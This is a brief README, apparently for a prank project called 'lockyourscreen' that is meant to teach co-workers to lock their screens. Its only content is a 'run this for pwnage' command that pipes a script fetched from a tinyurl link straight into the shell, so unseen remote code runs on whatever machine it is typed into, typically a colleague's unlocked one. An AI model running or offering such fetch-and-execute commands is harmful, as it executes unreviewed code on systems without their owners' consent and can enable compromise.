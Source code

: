 lockyourscreen
==============

This is used to teach co-workers why they should always lock their screen

Run this for pwnage:
`
`  curl -L http://tinyurl.com/davidhassel | sh
`
